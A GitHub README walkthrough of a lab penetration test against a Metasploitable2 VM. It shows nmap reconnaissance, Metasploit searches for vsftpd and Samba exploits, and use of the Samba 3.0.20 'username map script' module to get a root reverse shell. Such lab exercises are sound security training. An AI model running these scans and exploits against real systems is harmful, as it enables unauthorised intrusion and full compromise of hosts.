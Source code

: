 # Metasploit-exploit-module-POC
A step-by-step POC of samba server exploit. Scanning with Nmap to find open ports, using Metasploit to find the vulnerability and gain access to the victim.
## Install 
1. First of all download [Metaspliotable2](https://sourceforge.net/projects/metasploitable2/) Virtual Machine.
2. Extract the folder
3. On VMware choose _open virtual machine_
   
![Image](https://github.com/user-attachments/assets/9760e4af-aac6-403b-9aa0-8d2e98477477)

## Confirmation of killing 😉
Enter to Metaspliotable2 with the password `msfadmin`

![Image](https://github.com/user-attachments/assets/843dad1a-bd6f-449f-b8a7-73ba0d242d21)

Metaspliotable2 will be my victim. Now use `ifconfig` command to discover my target's IP address. I got the IP address to be 192.168.17.130

![Image](https://github.com/user-attachments/assets/81ccfc88-7811-4e6a-93d6-b04bca426090)

Let's see if my attack machine (-Kali Linux) can ping the victim machine. Use `nmap -sn <victim IP>`.

![Image](https://github.com/user-attachments/assets/acd070ea-7caa-441f-b5bd-8e699d3bf326)

It's clear that my attack machine can reach the victim.
### Scanning open ports
Now I'll find out what ports are open and which services are running in my victim. Use `nmap -sV <victim IP>` to run the service discovery:

![Image](https://github.com/user-attachments/assets/29dff5d7-0ce3-4a76-b7c0-086acef7e699)

As you can see it's party time! 🎊🎊 There are to many ports open!
### Look for the treasure (exploits...)
Now that I've performed the service detection step, I know what versions of applications my victim is running. I just have to find out which one of them might be vulnerable. I searched vulnerabilities in my Metasploit database with the `msfconsole` command.

![Image](https://github.com/user-attachments/assets/fb14a62b-30dc-4e00-9139-5823af5fa2e2)

Let's find out if the first application in the list, `vsftpd 2.3.4` (which is an ftp service running on port 21) that I found in my service detection phase, has any expliots associated with it. Search for vsftpd in Metaspliot console with `search vsftpd`.

![Image](https://github.com/user-attachments/assets/15e68715-a887-47c7-9168-b2918b587f93)

Whoa! The first one is already a hit. As you can see, the exploit rank is **excellent** and I can execute backdoor commands with this exploit.

![Image](https://github.com/user-attachments/assets/4c79da27-d926-4b66-852e-fa8bb2684b5a)

I noticed that the `netbios-ssn` service is running on `Samba` in my victim machine's port 139 and 445. There might be an expliot that I could use. But before that, there was no particular version written for the samba application. However, I have an auxiliary module in Metasploit that can find out the version for us. Let's see this in action:
`search smb_version`

![Image](https://github.com/user-attachments/assets/f239a533-a2cf-4835-aed6-2cbbf83a3b39)

Now choose the smb scanner:

![Image](https://github.com/user-attachments/assets/7d54254d-fa07-4ff1-ad26-138182a6cac9)

Now let's see the options I have to set up with `show options`:

![Image](https://github.com/user-attachments/assets/d14384c0-a326-4a6f-9c53-ce2ac03bb67b)

I can set up the RHOSTS and THREADS here. The RHOSTS will be my target and the THREADS determine how fast will the program run. 
Let's set them up: 
`set RHOSTS <victim IP>`
`set THREADS 16`
`show options`

![Image](https://github.com/user-attachments/assets/38e2f44a-caf5-453d-86c9-62c4a8ee0392)

Now `run` it.
The output gives me the version of the `Samba - 3.0.20`. Now I can fnd out the vulnerabilities associated with it. Let's try google. A simple google search reveals this version is vulnerable to `username map script` command execution.

![Image](https://github.com/user-attachments/assets/d17d0cf1-a71d-4d60-b6e0-b9dbd04534c3)

This is also available in Metasploit. Let's perform a search:
`search username map script`

![Image](https://github.com/user-attachments/assets/2f8e84b0-689a-4276-bb1e-653e7b234b00)

As you can see, there is an exploit for this vulnerability with an excellent rank. Lets use this one and try to gain access to the metasploitable machine:
`use <exploit number>`
`show options`
You can see that the Payload options are already set up. I will not change it. I only need to `set` up the RHOSTS options.
Now let's `exploit`!
The exploit sets up a reverse TCP handler to accept the incoming connection from the victim machine. Then the exploit completes and opens a session. We can also see that the access level is root. (Use `whoami` command to see it.)

